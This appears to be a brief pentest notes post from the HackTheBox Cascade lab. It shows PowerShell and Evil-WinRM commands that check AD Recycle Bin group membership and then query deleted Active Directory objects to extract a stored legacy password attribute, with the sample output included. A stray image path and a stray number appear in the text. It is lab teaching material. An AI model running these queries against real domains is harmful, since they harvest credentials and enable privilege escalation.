 ```yaml
---
layout: post
title: AD Recycle Bin
description: AD Recycle Bin
summary: AD Recycle Bin
tags: [windows,ad,pivot,privesc]
minute: 1
---
```

## Overview
Attacker can retrieve juicy information from deleted AD Objects if he had gained access to a low-privileged user that has access in deleted AD objects.

## Environment Setup and Requirements
* Low privileged user that can access deleted AD objects

## Steps
* Check current permission

```powershell
*Evil-WinRM* PS C:\users\arksvc> whoami /all | findstr /i recycle
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
*Evil-WinRM* PS C:\users\arksvc> 
```

* Check if you can see deleted objects

```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

* Find juicy information

```powershell
45689883479503
*Evil-WinRM* PS C:\users> Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties * | findstr cascadeLegacyPwd
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
*Evil-WinRM* PS C:\users> 
```

## References
* HTB Cascade
* [Active Directory Recycle Bin | Recover Deleted AD Object | AD Deleted Objects](https://stealthbits.com/blog/active-directory-object-recovery-recycle-bin/)
* [ACTIVE DIRECTORY OBJECT RECOVERY (RECYCLE BIN)](https://stealthbits.com/blog/active-directory-object-recovery-recycle-bin/)